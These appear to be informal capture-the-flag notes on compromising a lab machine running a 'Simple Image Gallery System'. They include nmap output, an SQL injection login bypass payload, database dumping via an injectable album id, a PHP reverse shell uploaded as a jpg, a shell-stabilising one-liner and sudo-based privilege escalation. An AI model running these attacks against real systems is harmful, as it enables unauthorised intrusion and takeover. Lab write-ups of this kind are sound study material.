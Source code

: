 Did a full nmap with out port scan
```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Simple Image Gallery System
```
possiable sql inject in the id on the cms

on the login page on `8080` use sqli to login as admin input this as username and password ' or 1=1 -- -

found on the id pram on the albums was vulnerable to sqli injection and got the database

cant crack the password for admin

so we upload a php file as a jpg file and get a rev shell upload php file that jpg in albums 

stablize rev shell
	`python3 -c 'import pty;pty.spawn("/bin/bash")'`

something entersting maybe
	`sudo -l<Redacted>`

	`mike:<Redacted` su login

mike can run a sh script as root stablize rev shell to use nano and use the gtfobins to exploit and get root
